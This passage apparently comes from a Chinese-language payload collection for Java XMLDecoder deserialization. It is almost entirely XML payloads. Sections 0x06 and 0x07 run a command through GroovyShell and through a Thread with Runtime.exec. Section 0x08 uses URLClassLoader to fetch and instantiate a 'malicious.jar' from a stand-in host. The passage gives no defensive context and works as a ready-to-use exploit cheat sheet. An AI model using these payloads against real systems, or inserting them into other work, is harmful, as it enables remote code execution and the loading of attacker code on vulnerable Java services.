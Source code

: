 ```  
  </object>
</java>
```  
  
  
1  
**0x06 GroovyShell**```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_202" class="java.beans.XMLDecoder">
  <object class="groovy.lang.GroovyShell">
    <void method="evaluate">
      <string>Runtime.getRuntime().exec("calc")</string>
    </void>
  </object>
</java>
```  
  
  
1  
  
**0x07 Thread执行**  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_202" class="java.beans.XMLDecoder">
  <object class="java.lang.Thread">
    <void method="start">
      <object class="java.lang.Runnable">
        <void method="run">
          <object class="java.lang.Runtime" method="getRuntime">
            <void method="exec">
              <array class="java.lang.String" length="1">
                <void index="0">
                  <string>calc</string>
                </void>
              </array>
            </void>
          </object>
        </void>
      </object>
    </void>
  </object>
</java>
```  
  
  
1  
  
**0x08 URLClassLoader**  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_202" class="java.beans.XMLDecoder">
  <object class="java.net.URLClassLoader">
    <array class="java.net.URL" length="1">
      <void index="0">
        <object class="java.net.URL">
          <string>http://example.com/malicious.jar</string>
        </object>
      </void>
    </array>
    <void method="loadClass">
      <string>MaliciousClass</string>
      <void method="newInstance"/>
    </void>
  </object>
</java>